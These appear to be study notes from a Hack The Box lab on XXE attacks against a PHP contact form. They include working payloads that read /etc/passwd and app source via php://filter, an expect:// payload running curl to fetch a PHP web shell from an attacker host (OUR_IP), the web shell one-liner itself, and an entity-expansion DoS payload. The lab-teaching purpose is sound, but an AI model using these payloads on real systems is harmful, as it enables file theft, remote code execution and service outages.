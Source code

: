 # Local File Disclosure
When a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities. 

Suppose we can define new entities and have them displayed on the web page. In that case, we should also be able to define external entities and make them reference a local file, which, when displayed, should show us the content of that file on the back-end server.
## Identifying
The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. 
### Example Walkthrough:
We can start the exercise at the end of this section, which has a `Contact Form`:
![Contact form with fields for full name, email, phone number, and query. Includes address, urgent enquiries phone number, and general support email](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg)

If we fill the contact form and click on `Send Data`, then intercept the HTTP request with Burp, we get the following request:
![HTTP POST request to /submitDetails.php with XML data including 'name', 'tel', 'email', and 'message' fields](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_request.jpg)

As we can see, the form appears to be sending our data in an XML format to the web server, making this a potential XXE testing target. 

Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input. In that case, we may be able to exploit this XML form to read local files.

If we send the form without any modification, we get the following message:
![HTTP POST request to /submitDetails.php with XML data including 'name', 'tel', 'email', and 'message' fields. Response: HTTP/1.1 200 OK, message 'Check your email email@xxe.htbl for further instructions.'](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_response.jpg)

We see that the value of the `email` element is being displayed back to us on the page. To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`.

For now, we know that whatever value we place in the `<email></email>` element gets displayed in the HTTP response. So, let us try to define a new entity and then use it as a variable in the `email` element to see whether it gets replaced with the value we defined.

We can define new XML entities and add the following lines after the first line in the XML input:
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
>**NOTE:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

Now, we should have a new XML entity called `company`, which we can reference with `&company;`. So, instead of using our email in the `email` element, let us try using `&company;`
![HTTP POST request to /submitDetails.php with XML data including 'name', 'tel', 'email', and 'message' fields. Response: HTTP/1.1 200 OK, message 'Check your email Inlane Freight for further instructions.'](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_new_entity.jpg)
- The response did use the value of the entity we defined (`Inlane Freight`) instead of displaying `&company;`, indicating that we may inject XML code.
>**NOTE:** In contrast, a non-vulnerable web application would display (`&company;`)
## Reading Sensitive Files
Now that we can define new internal XML entities let's see if we can define external XML entities. Doing so is fairly similar to what we did earlier, but we'll just add the `SYSTEM` keyword and define the external reference path after it:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
- We see that we did indeed get the content of the `/etc/passwd` file, `meaning that we have successfully exploited the XXE vulnerability to read local files`.
> We can refer to the [File Inclusion / Directory Traversal](https://academy.hackthebox.com/course/preview/file-inclusion) module to see what attacks can be carried out through local file disclosure.
## Reading Source Code
Another benefit of local file disclosure is the ability to obtain the source code of the web application.

let us see if we can use the same attack to read the source code of the `index.php` file, as follows:
```XML
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file://index.php">
]>
```
- This did not work, as we did not get any content. This happened because `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`.

Luckily, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format.

To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper. 
- With this filter, we can specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`), as follows:
```xml
<!DOCTYPE replace [<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<root>
    <name>&company;</name>
    ...
```
- With that  we will get the base64 encoded string of the `index.php` file.
- We can select the base64 string, click on Burp's Inspector tab (on the right pane), and it will show us the decoded file.
> **NOTE:** `This trick only works with PHP web applications.`
## Remote Code Execution with XXE
we may be able to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server.

If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.
- If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as `expect://id`, and the page should print the command output
- However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app.

To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
```
```bash
sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
>**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.
## Other XXE Attacks
Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability.
### DoS Attack
Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. 

However, `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`.